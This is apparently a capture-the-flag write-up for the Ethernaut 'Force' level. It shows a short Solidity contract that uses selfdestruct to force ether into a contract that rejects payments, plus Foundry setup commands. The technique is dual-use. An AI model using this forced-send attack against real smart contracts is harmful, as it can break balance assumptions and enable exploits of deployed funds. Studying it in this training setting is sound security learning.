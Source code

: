 # Question Statement
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

    Fallback methods
    Sometimes the best way to attack a contract is with another contract.
- Reference -> https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B

# Solution Approach
using selfdestruct from another contract
```solidity
contract TemperarySelfDestructContract {
    function attack(address payable _addr) external {
        // it will show warning but ignore that
        selfdestruct(_addr);
    }

    fallback() external payable {}

    receive() external payable {}
}
```

# Test Code File 
- [Force.t.sol](./test/Force.t.sol)


# Test Output
![test output](image.png)


# Code Setup 
``` 
$ forge install
$ forge build
$ forge test -vvvv
```

# Reference
- [vm.deal()](https://book.getfoundry.sh/cheatcodes/deal)
- [vm.assertEq()](https://book.getfoundry.sh/reference/forge-std/assertEq)